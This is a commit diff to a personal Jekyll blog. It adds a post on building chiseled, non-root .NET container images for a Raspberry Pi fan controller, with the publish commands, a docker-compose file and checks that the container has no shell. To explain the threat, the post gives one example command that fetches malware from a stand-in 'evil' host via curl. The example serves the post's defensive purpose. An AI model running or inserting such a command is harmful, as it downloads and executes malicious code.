

Before and after one commit to mu88/mu88.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 1191 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
feat: add new blog post "Using chiseled base images for a .NET app on a Raspberry Pi"

```diff
--- a/_posts/2024-01-21-SDK-container-building-tools.md
+++ b/_posts/2024-01-21-SDK-container-building-tools.md
@@ -112,7 +112,7 @@ dotnet publish --os linux --arch arm64 /t:PublishContainer -c Release -p:Contain
 dotnet publish --os linux --arch x64 /t:PublishContainer -c Release -p:ContainerRegistry=registry.hub.docker.com '-p:ContainerImageTags="1.0.0-x64;latest-x64"'
 {% endhighlight %}
 
-The property `ContainerFamily` is extremely handy to easily change the base image used to build and publish the app. For example, by adding `p:ContainerFamily=jammy-chiseled` one can easily build an image using the new chiseled base images ([see official Microsoft blog post for more information](https://devblogs.microsoft.com/dotnet/announcing-dotnet-chiseled-containers/)). We will look at this in a later blog post.
+The property `ContainerFamily` is extremely handy to easily change the base image used to build and publish the app. For example, by adding `p:ContainerFamily=jammy-chiseled` one can easily build an image using the new chiseled base images ([see official Microsoft blog post for more information](https://devblogs.microsoft.com/dotnet/announcing-dotnet-chiseled-containers/)). We will look at this [in the next post]({{ site.baseurl }}/2024/04/05/Raspi-Fan-Controller-chiseled.html).
 
 ## Closing
 Now that we saw the new tools in action, the big question is: _why should we use them, what's the problem using a dedicated `Dockerfile`?_ And this question is absolutely valid. I personally see the following benefits:
--- /dev/null
+++ b/_posts/2024-04-05-Raspi-Fan-Controller-chiseled.md
@@ -0,0 +1,125 @@
+---
+layout: post
+title: Using chiseled base images for a .NET app on a Raspberry Pi
+description: Make your apps more secure by limiting the container's capabilities
+comment_issue_id: 24
+---
+
+[In the last post]({{ site.baseurl }}/2024/01/21/SDK-container-building-tools.html), I showed you how to use the .NET SDK Container Building Tools that ship with .NET 8 to make building Docker images easier by removing the `Dockerfile` clutter.
+In this post, I want to show you how this became handy when migrating one of my apps to Docker.
+
+## Introducing the _Raspi Fan Controller_ project
+
+Some years ago, I bought a Raspberry Pi 4 and while getting into touch with this neat mini computer, I read several times that it might get pretty hot and should better be run with a heat sink. So I decided to attach a small CPU fan and build a custom fan controller software based on .NET ([read more about it here]({{ site.baseurl }}/2020/04/24/Raspi-Fan-Controller_p1)) - the [Raspi Fan Controller project](https://github.com/mu88/RaspiFanController).
+
+At the very beginning, I deployed it as a self-contained executable (no need to install .NET) on bare metal. However, since all of my other apps are running in Docker, I decided to containerize it, too.
+The most tricky piece of this containerization was to learn about how to map the necessary paths and devices (like the Raspi's GPIO pins) into a container. Finally, I found a working solution with a lot of help from the community and so the _Raspi Fan Controller_ was running inside a container, too.
+
+## Chiseled base images for .NET
+
+To be honest: when I first read the word _chiseled_, I thought about it being a typo 😅 it came to my attention when reading another excellent blog post from Rich Landers: [Announcing .NET Chiseled Containers](https://devblogs.microsoft.com/dotnet/announcing-dotnet-chiseled-containers/)
+
+If you never heard about it, here's my very brief takeaway of the concept: Docker images are made up of layers and the lowest layers are very similar to a lightweight OS and contain necessary vital libraries and tools (e. g. a shell).
+When running a container, however, it might not always be necessary to have a shell. Even more, consider a malicious component inside the container being able to run a shell and download and execute further malware via `curl https://this.is.evil/killThisDevice.ps1`.
+Chiseled images mitigate those issues by two approaches:
+1. They are non-root by default (so you can't run `apt install` to install further tools).
+2. They are stripped down to the bare minimum (there isn't even the `apt` tool nor a shell).
+
+This way, a malicious component can do way less harm.
+
+Microsoft provides chiseled base images for .NET for Ubuntu Jammy and they are tagged with the suffix `-chiseled`, e. g. `mcr.microsoft.com/dotnet/aspnet:8.0-jammy-chiseled`.
+
+Another neat benefit of chiseled images is that they are way smaller. That makes sense as they contain less tools and are stripped down. For example, the ASP.NET Core 8 image for Ubuntu Jammy is 216 MB big - the chiseled counterpart only 110 MB.
+
+## And why do you care?
+
+Well, that's a perfect question! One could definitely argue that in my private home network, the chance of a malicious attack might be negligibly. On the other hand, it's a nice apprentice piece to get used to the technology and better safe than sorry.
+
+## Using chiseled images for the _Raspi Fan Controller_ project
+
+Since I had already containerized my project and made use of the .NET SDK Container Building Tools, providing a chiseled variant is fairly easy:
+
+{% highlight shell %}
+
+dotnet publish --os linux --arch arm64 /t:PublishContainer \
+    -p:ContainerRegistry=registry.hub.docker.com \
+    '-p:ContainerImageTags="1.0.0;latest"'
+
+dotnet publish --os linux --arch arm64 /t:PublishContainer \
+    -p:ContainerRegistry=registry.hub.docker.com \
+    '-p:ContainerImageTags="1.0.0-chiseled;latest-chiseled"' \
+    -p:ContainerFamily=jammy-chiseled
+
+{% endhighlight %}
+
+The first command we already know from the first blog post: it builds a Docker image for the Raspi's `arm64` architecture, using the non-chiseled base images by default.
+For the second command, the parameter `ContainerFamily` is set to `jammy-chiseled` and that instructs the .NET SDK Container Building Tools to use the chiseled base image. To easily distinguish it, I use dedicated tags with the suffix `-chiseled`.
+
+## Running the chiseled image
+
+To create a Docker container from the chiseled image, the following `docker-compose.yml` can be used:
+
+{% highlight yaml %}
+
+version: '3'
+services:
+  raspifancontroller:
+    container_name: raspifancontroller
+    image: mu88/raspifancontroller:latest-chiseled
+    ports:
+      - 127.0.0.1:5000:8080
+    user: "1654:997" # group 997 is necessary to access the GPIO pins
+    volumes:
+      - /sys/class/thermal/thermal_zone0:/sys/class/thermal/thermal_zone0:ro # CpuTemperature needs this
+    devices:
+      - /dev/gpiomem
+
+{% endhighlight %}
+
+Let's dissect it piece by piece:
+- The previously created image `mu88/raspifancontroller:latest-chiseled` is pulled and the container named `raspifancontroller` exposes its port `8080` via `5000` to the host. So far, this is basic ASP.NET Core 8.
+- The user ID (UID) is set to `1654`. This is a _magic number_ for the new `app` user with non-root capabilities - another .NET 8 feature (read more about it here: [Secure your .NET cloud apps with rootless Linux Containers](https://devblogs.microsoft.com/dotnet/securing-containers-with-rootless/))
+- The user's group ID (GID) is set to `997`. This is the first important piece to notice as this group has the necessary permissions to control the Raspi's GPIO pins.
+- The host file `/sys/class/thermal/thermal_zone0` is mapped into the container as read-only (notice the `:ro` suffix). This file contains the Raspi's current CPU temperature and is necessary for the fan controller.
+- Lastly, the device `/dev/gpiomem` is mapped which actually represents the GPIO pins.
+
+When running `docker compose up -d`, a Docker container will be started.
+
+## See chiseled in action
+
+Let's recap the benefits of chiseled images from the beginning:
+- non-root by default
+- reduced to the bare minimum (i. e. no shell)
+
+Let's validate these statements!
+
+### No shell
+
+If there'd be a shell, we could connect to the container via `docker exec -it <<container>> bash`, so let's try it:
+
+{% highlight shell %}
+myUser@myRaspi:~ $ docker exec -it raspifancontroller bash
+OCI runtime exec failed: exec failed: unable to start container process: exec: "bash": executable file not found in $PATH: unknown
+{% endhighlight %}
+
+Nice, we get an error indicating that there is no shell ✅
+
+### Non-root by default
+
+If there's no shell, how can we validate that the user has only limited permissions and cannot execute commands like `apt install`? We can check with a Docker command which user ID the process running inside the container has, because on Linux, the `root` user always has the UID `0`.
+
+{% highlight shell %}
+myUser@myRaspi:~ $ docker top raspifancontroller
+UID    PID   PPID  C  STIME  TTY  TIME      CMD
+1654  1796  1704  1  Mar22  ?    04:15:47  dotnet RaspiFanController.dll
+{% endhighlight %}
+
+Cool, we see that the .NET assembly `RaspiFanController.dll` is running with the `app`'s UID `1654`, i. e. as non-root ✅
+
+## Closing
+
+And with that, I want to close this mini-series about non-root and chiseled containers, built with the .NET SDK Container Building Tools.
+
+I hope you enjoyed it - have a great time and take care 👋🏻
+
+PS: I'm very proud that some parts of this journey even made it into the official Microsoft docs: [Control GPIO pins within rootless Docker container on Raspberry Pi](https://github.com/dotnet/iot/blob/main/Documentation/raspi-Docker-GPIO.md)
```
Also changed, not shown: 1 other file.
